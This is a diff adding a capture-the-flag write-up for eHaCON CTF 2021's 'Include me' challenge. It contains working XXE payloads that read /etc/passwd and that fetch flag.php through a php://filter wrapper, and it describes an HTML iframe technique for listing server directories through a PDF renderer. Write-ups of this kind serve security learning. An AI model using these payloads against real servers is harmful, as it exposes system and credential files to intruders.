

upload Include me ehacon ctf 2021

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.1861, 0.6516, 0.4343, 0.6812], [0.031, 0.8885, 0.0931, 0.9477]]

diff --git a/eHaCON CTF 2K21/Include me.md b/eHaCON CTF 2K21/Include me.md
@@ -1,8 +1,114 @@
 # A secret conversation
 ## Description
+
 > Zero Dollar Security is hiring infosec enthusiast. Apply ASAP. Connect at chall.ctf-ehcon.ml:32104
+
 ## Solution
 
+This application just has register function
+
+![Register function](./img/Include%20me/register.png)
+
+Use Burp Suite to intercept the request.
+- As we see, body of the request is XML
+- The response has the `username` has sent before
+
+--> This might contain XXE vulnerability 
+
+![Register function](./img/Include%20me/register-burp.png)
+
+The first we try to read a file such as `/etc/passwd` 
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+    <!DOCTYPE root [	
+        <!ENTITY ext SYSTEM "file:///etc/passwd"> 
+    ]>
+    <root>
+        <email>&ext;</email>
+        <password>none</password>
+    </root>
+```
+
+![XXE](./img/Include%20me/read-file-xxe.png)
+
+That's good, continue reading other files such as `flag.txt`, `flag.php`... but I get nothing.
+
+When I'm trying to list directory, I receive a strange response having a newline character `\n` 
+
+![New hint](./img/Include%20me/read-file-2.png)
+
+Nice, use another method to read or list directory. Because I knew this application use `PHP`, therefore I use PHP wrapper to read file
+- File `flag.php` is guessed
+	
+```xml
+<?xml version="1.0" encoding="UTF-8"?>
+    <!DOCTYPE root [	
+        <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=flag.php">  
+    ]>
+    <root>
+        <email>&ext;</email>
+        <password>none</password>
+    </root>
+```
+
+![Read file with PHP wrapper](./img/Include%20me/read-file-base64.png)
+
+Okay good response, take this to base64 decode. Read this code a bit
+- It takes param `content` in request using `POST` method
+- Put `content` into created file with given `content` 
+- Pass 2 file `.html` and `.pdf` to `/var/www/html/files/` 
+```php
+<?php
+if (($_SERVER["REQUEST_METHOD"] ?? 'GET') == 'POST'){
+    if(isset($_POST["content"])){
+       $file_name=rand(4060,9999).'.html';
+        file_put_contents("files/".$file_name,$_POST["content"]);
+        passthru("java -Xmx512m -Djava.awt.headless=true -cp /var/www/html/pd4ml_demo.jar Pd4Cmd file:////var/www/html/files/$file_name 800 A4 -out /var/www/html/files/result.pdf");
+    }
+    else{
+	echo "Try harder!!, pal";
+	}
+}
+else{
+    echo "Try harder!!!, pal";
+}
+?>
+```
+What did I get through this snippet code?
+- We can put our payload into a file `html` 
+- A new directory `/var/www/html/files/` 
+
+Well, observer new directory a bit
+
+![Files directory](./img/Include%20me/directory-before-post.png)
+
+Now, how can we capture the flag with controlable data HTML? Can we read file or list directory?
+
+We can definately do it with `iframe` tag in HTML
+--> LFI with iframe
+
+Replace body of `POST` method from XML to `content`
+
+![POST method](./img/Include%20me/post.png)
+
+My payload:
+- Diretory listing of `/` 
+
+![Content param in POST method](./img/Include%20me/content.png)
+
+After send the request, F5 the application we will get new files
+
+![After post](./img/Include%20me/directory-after-post.png)
+
+Nice, check out content of file `result.pdf` 
+
+![List directory in /](./img/Include%20me/list-directory.png)
+
+Where is the flag? Ah, it's in `/ctf/`. List directory in `/ctf/`
+
+![List directory in /ctf/](./img/Include%20me/list-directory-ctf.png)
+
+The flag was captured 🎉🎉
 
 ```
 Flag is : EHACON{lf1_@nd_xx3_1s_fun}
